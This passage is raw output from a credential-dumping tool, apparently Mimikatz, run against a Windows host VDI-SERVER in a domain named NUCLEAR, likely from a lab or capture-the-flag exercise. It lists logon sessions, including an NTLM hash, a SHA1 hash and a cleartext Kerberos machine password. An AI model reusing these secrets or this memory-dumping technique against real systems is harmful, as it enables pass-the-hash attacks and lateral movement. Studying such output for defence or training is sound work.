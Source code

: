 ```
Logon Time        : 1/19/2021 11:31:10 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : vdi-server$
         * Domain   : NUCLEAR.SITE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 3258841 (00000000:0031b9d9)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/19/2021 9:48:20 PM
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
         * Username : VDI-SERVER$
         * Domain   : NUCLEAR
         * Password : (null)
        kerberos :
         * Username : VDI-SERVER$
         * Domain   : nuclear.site
         * Password : 9;/14$UF<o$iVAv!2IcUhu.uAQ1\`[kY)XnY\WYe3b"!d8!p9+a>93S#zdLC.j@k@s/!2>hnV)nf:*b:C'2KD'0)@uxp)E@^VJn[&9ky0C*A=Xx>h<1;E7$j
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/19/2021 11:31:11 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 2542070 (00000000:0026c9f6)
Session           : Service from 0
```